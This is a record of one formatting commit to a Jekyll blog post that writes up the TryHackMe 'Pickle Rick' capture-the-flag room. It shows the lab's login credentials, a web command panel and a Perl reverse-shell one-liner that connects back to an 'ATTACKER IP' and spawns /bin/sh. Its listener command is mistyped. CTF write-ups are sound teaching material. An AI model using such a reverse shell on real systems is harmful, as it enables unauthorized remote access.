

Before and after one commit to cjboyd1999/cjboyd1999.github.io, a Jekyll site: the page built from _posts/2020-12-30-THM-PickleRick.md, in a window 1280 px wide and 900 px high, scrolled down 2303 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Updated THM-PickleRick
Better formatting/sectioning of content

````diff
--- a/_posts/2020-12-30-THM-PickleRick.md
+++ b/_posts/2020-12-30-THM-PickleRick.md
@@ -51,11 +51,12 @@ Gobuster found two noteworthy pages:
 With the credentials `R1ckRul3s:Wubbalubbadubdub`, I was able to login at `{IP}/login.php`.
 
 ## IP/portal.php
-### Intial Inspection
+### Ingredient 1
 The first thing to see is an input field for running commands on the host. Running `ls` reveals a few of the website's files alongside `Sup3rS3cretPickl3Ingred.txt`. Attempting to cat out this file results in a "command is disabled" message.
 
 Navigating to `{IP}/Sup3rS3cretPickl3Ingred.txt` shows the first ingredient.
 
+### Reverse Shell
 After trying some other commands, I found that directory traversal was possible but got me nowhere.
 
 I then began trying some of [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)'s reverse shells.
@@ -65,6 +66,7 @@ The Bash shell failed...
 The PERL shell was successful!
 * Start a listener with `sudo -lnvp 1337`.
 * Run the following command:
+
 ```perl
 perl -e 'use Socket;$i="ATTACKER IP";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```
````
